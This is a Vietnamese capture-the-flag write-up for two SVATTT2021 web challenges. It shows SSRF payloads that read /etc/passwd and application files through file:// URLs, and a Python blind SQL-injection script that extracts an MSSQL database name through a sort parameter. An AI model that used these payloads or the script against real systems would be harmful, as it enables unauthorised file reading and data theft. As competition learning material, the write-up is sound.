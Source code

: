 # \[Web] SVATTT2021

![ASCIS 2021 - Quals](<../.gitbook/assets/image (3).png>)

### OProxy

Link: [http://125.235.240.166:8000](http://125.235.240.166:8000)

[
\
](http://125.235.240.166:8000)

![](<../.gitbook/assets/image (2).png>)

Bài này ta nhận được 1 form login, nhiệm vụ của mình là tạo 1 account và xem xét các chức năng có sẵn, sau đó sẽ dựa vào tính năng "View website by proxy" để thực hiện việc bypass

Lúc làm bài này thì mình khá bí và tốn thời gian suy nghĩ vì không biết nên làm thế nào, sau đó nhờ 1 tiền bối gợi ý thì giải pháp làm bài này sẽ như sau:

&#x20;

![](../.gitbook/assets/image.png)

* Mình sẽ thực hiện việc truyền 1 URL thông qua form này, sau đấy sử dụng BurpSuite chặn lại trước khi request được chuyển đi và thực hiện payload sau đây.
* `csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Nói rõ hơn, giai đoạn mình thực hiện fuzz như sau:

`csrf_token=[token]&url=file://127.0.0.1/etc/passwd&Submit=Go%21`

![](<../.gitbook/assets/ảnh (6) (1).png>)

Để ý server respose header Werkzeug/1.01 Python/3.10.0, tiếp tục fuzz

`csrf_token=[token]&url=file://127.0.0.1/app/main.py&Submit=Go%21`

![](<../.gitbook/assets/ảnh (7) (1).png>)

`csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Flag: ASCIS{SSRF\_M3mcached\_inj3cti0n}



### script kiddie

\
Link: [http://167.172.85.253/web100/?sort=name
\
](http://167.172.85.253/web100/?sort=name)

![](<../.gitbook/assets/image (1).png>)

Đầu tiên khi vào link đề cho ta sẽ thấy thông tin hiển thị như ở dưới đây

![](<../.gitbook/assets/image (4).png>)

Đề đã cho ta những thông tin cần thiết, đầu tiên như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với CSDL được dùng ở đây là MSSQL. Câu query như sau:  SELECT \* FROM … ORDER BY $sort ASC

`Giá trị của biến `$sort`  ta có thể control thông qua param  `?sort=



```
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
//Code tham khảo từ https://kcsc-club.github.io/2021/10/18/svattt2021-quals/#web			
```

![](<../.gitbook/assets/ảnh (9) (1).png>)

Flag: `ASICS{ssalchtiwesmihcueymorf}`



